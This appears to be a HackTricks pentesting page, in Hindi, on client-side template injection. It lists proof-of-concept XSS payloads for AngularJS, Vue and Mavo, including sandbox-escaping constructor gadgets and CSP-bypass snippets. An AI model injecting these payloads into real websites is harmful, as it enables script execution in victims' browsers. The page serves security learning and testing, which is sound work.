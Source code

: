 # Client Side Template Injection (CSTI)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Summary

यह [**Server Side Template Injection**](ssti-server-side-template-injection/) की तरह है लेकिन **client** में। **SSTI** आपको **remote server** पर **कोड** **execute** करने की अनुमति दे सकता है, **CSTI** आपको **victim's browser** में **मनमाना JavaScript** कोड **execute** करने की अनुमति दे सकता है।

इस भेद्यता के लिए **Testing** **SSTI** के मामले में बहुत **similar** है, interpreter **एक template** की अपेक्षा करता है और इसे execute करेगा। उदाहरण के लिए, एक payload जैसे `{{ 7-7 }}` के साथ, यदि ऐप **vulnerable** है तो आप `0` देखेंगे, और यदि नहीं, तो आप मूल देखेंगे: `{{ 7-7 }}`

## AngularJS

AngularJS एक व्यापक रूप से उपयोग किया जाने वाला JavaScript framework है जो HTML के साथ attributes के माध्यम से बातचीत करता है जिसे directives के रूप में जाना जाता है, एक उल्लेखनीय **`ng-app`** है। यह directive AngularJS को HTML सामग्री को संसाधित करने की अनुमति देता है, जिससे डबल कर्ली ब्रेसेस के अंदर JavaScript expressions के execution की अनुमति मिलती है।

ऐसे परिदृश्यों में जहां उपयोगकर्ता इनपुट को `ng-app` के साथ टैग किए गए HTML body में गतिशील रूप से डाला जाता है, मनमाना JavaScript कोड execute करना संभव है। यह इनपुट के भीतर AngularJS की syntax का लाभ उठाकर किया जा सकता है। नीचे उदाहरण दिए गए हैं जो दिखाते हैं कि कैसे JavaScript कोड execute किया जा सकता है:
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
आप इस **बुनियादी ऑनलाइन उदाहरण** को **AngularJS** में इस लिंक पर पा सकते हैं [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/) और [**Burp Suite Academy**](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression) में

{% hint style="danger" %}
[**Angular 1.6 ने सैंडबॉक्स हटा दिया**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html) इसलिए इस संस्करण से एक पेलोड जैसे `{{constructor.constructor('alert(1)')()}}` या `<input ng-focus=$event.view.alert('XSS')>` काम करना चाहिए।
{% endhint %}

## VueJS

आप एक **कमजोर Vue** कार्यान्वयन इस लिंक पर पा सकते हैं [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh)\
काम करने वाला पेलोड: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor\(%27alert\(%22foo%22\)%27\)\(\)%7D%7D)

और कमजोर उदाहरण का **स्रोत कोड** यहाँ है: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)
```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```
CSTI पर VUE में एक बहुत अच्छा पोस्ट [https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets) पर पाया जा सकता है।

### **V3**
```
{{_openBlock.constructor('alert(1)')()}}
```
Credit: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V2**
```
{{constructor.constructor('alert(1)')()}}
```
Credit: [Mario Heiderich](https://twitter.com/cure53berlin)

**अधिक VUE पेलोड्स देखें** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)

## Mavo

Payload:
```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
**अधिक पेलोड्स** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

## **ब्रूट-फोर्स डिटेक्शन लिस्ट**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt" %}



{% hint style="success" %}
सीखें और प्रैक्टिस करें AWS हैकिंग:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और प्रैक्टिस करें GCP हैकिंग: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}

